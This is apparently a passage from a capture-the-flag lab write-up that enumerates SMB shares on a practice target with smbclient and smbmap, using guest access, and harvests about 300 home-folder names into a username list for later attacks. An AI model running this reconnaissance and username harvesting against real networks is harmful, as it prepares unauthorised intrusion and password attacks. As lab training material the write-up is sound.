 Result:

```text
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	forensic        Disk      Forensic / Audit share.
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	profiles$       Disk      
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

And try to get some more informations :

```shell
smbmap -u guest -H "$TARGET"
```

Result:

```text
[+] IP: 10.10.10.192:445	Name: 10.10.10.192        	Status: Authenticated
    Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	forensic                                          	NO ACCESS	Forensic / Audit share.
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	NO ACCESS	Logon server share 
	profiles$                                         	READ ONLY	
	SYSVOL                                            	NO ACCESS	Logon server share 
```

So the share `profiles$` is accessible as read-only.

```shell
smbmap -u guest -H "${TARGET}" -R "profiles\$"
```

Result [here](smb_share_profiles.txt)

This share contains a list (around 300) of supposed home folders, such as :

```text
	dr--r--r--                0 Wed Jun  3 18:47:11 2020	ACheretei
	dr--r--r--                0 Wed Jun  3 18:47:11 2020	ACsonaki
	dr--r--r--                0 Wed Jun  3 18:47:11 2020	AHigchens
	dr--r--r--                0 Wed Jun  3 18:47:11 2020	AJaquemai
	dr--r--r--                0 Wed Jun  3 18:47:11 2020	AKlado
```

For later use, we generate usernames from the folder names :

```bash
smbclient -N "\\\\${TARGET}\\profiles\$" -c 'ls' | grep -E '^  [A-Z]*' | cut -d ' ' -f 3 > usernames.txt
```
